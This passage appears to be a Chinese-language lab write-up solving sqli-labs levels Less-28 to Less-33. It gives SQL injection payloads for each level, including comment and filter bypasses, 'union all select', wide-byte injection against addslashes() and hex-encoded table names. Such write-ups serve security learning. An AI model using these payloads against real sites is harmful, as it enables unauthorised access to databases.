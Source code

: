 9. Less-28 Trick with SELECT & UNION

    同样是单引号闭合，构造`id=1'and(1=1)and'1'='1`过关。

10. Less-28a Trick with SELECT & UNION

    老payload`id=1'and(1=2)and'1'='1`可以过关。

    另外需要特别注意的是，因为减号`-`也没有被过滤，可以使用`-- asdf`来注释掉后面的语句，经过`id=1'--+`、`id=1"--+`、`id=1')--+`的测试，得知闭合方式是`id=('1')`。此外被过滤的只是`union select`.所以可以使用`union all select`替代完成注入。payload可以是`id=-1') union all select 1,2,database()-- dsfd`

11. Less-29 Protection with WAF

    waf好像只过滤了`#`，所以使用`--+`作为注释。然后使用常规的UNION注入就能完成。

12. Less-30

    `#`还是被过滤的，首先使用`id=1'`页面没有反应，后来使用`id=1"`页面没有返回内容了，再使用`id=1"--+`测试，页面返回正常。后来构造了`id=-1" union select 1,2,3 -- sdsf`实现注入。

13. Less-31 FUN with WAF

    测试`id=1'`、`id=1"`等，发现是使用`id=1")`闭合。然后就是常规的UNION注入。

14. Less-32 Bypass addslashes()

    题目提示了有`addslashes()`函数，也就是说在进行一些特殊符号输入的时候会被加上转义符。例如我们输入`?id=1'`就会被转义成`?id=1\'`。对于这种过滤方式一般可以采取两种对策，一种是在payload中加入单数量的反斜杠`\`，但是这一关我试过没作用。第二种方法是尝试进行宽字符注入。构造`?id=1%df%27 --+`进行闭合。

15. Less-33 Bypass addslashes()

    这个题目和上个题目差不多，使用`?id=-1%df%27%20union%20select%201,2,3%23`可以进行注入，但是要注意的是当查询列名称的时候由于`addslashes()`函数过滤了单引号，所以`select column_name from information_schema.columns where table_name='users'`这一句最后指明表名称的时候需要替换为16进制。
